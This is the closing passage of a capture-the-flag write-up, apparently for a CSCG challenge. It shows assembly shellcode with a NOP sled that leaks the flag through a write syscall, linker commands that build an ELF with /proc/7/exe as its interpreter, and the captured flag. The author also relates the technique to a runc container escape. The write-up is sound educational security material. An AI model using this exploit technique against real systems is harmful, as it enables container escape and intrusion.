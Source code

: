 ```asm
.intel_syntax noprefix

.global main

main:
    .rept 0x999
        nop
    .endr
    xor rax, rax
    mov rax, 1
    mov rdi, 1
    mov rsi, [rsp]
    sub rsi, 0xedac
    mov rdx, 100
    syscall
```

This simply assembles to a sequence of 0x999 `nop` instructions, and some shellcode that prints the flag. The offset of
`0xedac`, which is the location of the flag string in memory, can be conveniently found via pwndbg's `search` function. [^6]

This can be assembled into an object file and packaged into an ELF via:

```sh
as -o main.o main.s
ld --section-start=.text=0x5c000 --dynamic-linker=/proc/7/exe -lc -o main main.o
```

This `ld` command sets the starting point of the `.text` section to `0x5c000`, so that the PC at `0x5c996`
aligns with 3 more nops of the nop sled, and then our flag-leaking code.
The `--dynamic-linker=/proc/7/exe` argument sets the ELF interpreter as `patchelf` did above.
The `-lc` flag is required to force the linker into creating a dynamically linked executable, even though we don't
have any library calls.

When sending that payload to the server, we get the flag:

> `CSCG{th3_x7fELF_0n_th3_sh3lf_a534d73f80969de6}`

This was a very fun challenge to do, and has taught me a lot on how ELF execution in Linux works.

It also corresponds nicely to some vulnerabilities previously seen in in-the-wild container escapes, but that's a story for
another day. [^7]

[^1]: https://man7.org/linux/man-pages/man2/unlink.2.html
[^2]: https://man7.org/linux/man-pages/man2/memfd_create.2.html
[^3]: https://man7.org/linux/man-pages/man2/execve.2.html
[^4]: https://elixir.bootlin.com/linux/v5.10.236/source/fs/binfmt_elf.c
[^5]: https://github.com/NixOS/patchelf
[^6]: https://browserpwndbg.readthedocs.io/en/docs/commands/procinfo/search/
[^7]: https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/
